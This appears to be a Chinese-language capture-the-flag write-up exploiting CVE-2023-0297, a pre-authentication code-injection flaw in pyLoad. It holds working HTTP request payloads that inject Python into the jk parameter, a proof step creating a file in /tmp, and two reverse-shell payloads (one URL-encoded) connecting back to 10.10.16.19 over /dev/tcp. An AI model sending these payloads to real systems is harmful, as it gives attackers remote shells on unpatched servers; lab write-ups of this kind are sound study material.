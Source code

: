 ![image-20230607170009272](/images/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230607170009272.png)

参考：https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad

抓包，构建payload。

```shell
POST /flash/addcrypted2 HTTP/1.1
Host: 127.0.0.1:8888
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

jk=pyimport%20os;os.system("touch%20/tmp/sc");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa
```

```shell
sau@pc:~/pc$ ls /tmp
f                 systemd-private-628a5522ee4648d296ffe1c8e6eca0de-ModemManager.service-ImOkhf
pwnd              systemd-private-628a5522ee4648d296ffe1c8e6eca0de-systemd-logind.service-BZwW7g
pwndd             systemd-private-628a5522ee4648d296ffe1c8e6eca0de-systemd-resolved.service-ncz9nh
pyLoad            tmpxrh_sme7
sc                tmux-1001
snap-private-tmp  vmware-root_737-4257003961
```

准备反向shell：

```shell
POST /flash/addcrypted2 HTTP/1.1
Host: 127.0.0.1:8888
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

jk=pyimport%20os;os.system("%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%36%2e%31%39%2f%39%39%39%39%20%30%3e%26%31%27%22);f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa

#or

POST /flash/addcrypted2 HTTP/1.1
Host: 127.0.0.1:8888
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

jk=pyimport%20os;os.system("bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.19/9999+0>%261'");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa

```